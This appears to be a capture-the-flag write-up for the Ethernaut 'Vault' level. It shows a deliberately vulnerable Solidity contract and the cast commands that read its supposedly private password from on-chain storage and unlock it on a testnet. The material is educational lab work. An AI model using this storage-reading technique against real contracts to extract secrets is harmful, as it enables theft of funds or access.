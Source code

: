 ```yaml
---
title: "Vault"
rags: ["Variables", "Storage"]
reference: https://ethernaut.openzeppelin.com/level/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670
---
```


# Description

Unlock the vault to pass the level!

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

# Solution

1. To unlock the vault we need to provide the correct password to the `unlock` function

2. We can get the password by looking at the contract state variable `password` because all state variables are publicly stored on chain.

3. get the password

```
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xE4778ADB9670cA700251a6A1920B935fa8595b74 1 --rpc-url $BASE_SEPOLIA_RPC
0x412076657279207374726f6e67207365637265742070617373776f7264203a29 // password variable
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xE4778ADB9670cA700251a6A1920B935fa8595b74 0 --rpc-url $BASE_SEPOLIA_RPC
0x0000000000000000000000000000000000000000000000000000000000000001 // locked variable
```

storage layout ref: https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html

4. unlock the vault

```
cast send 0xE4778ADB9670cA700251a6A1920B935fa8595b74 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $BASE_SEPOLIA_RPC --private-key
```
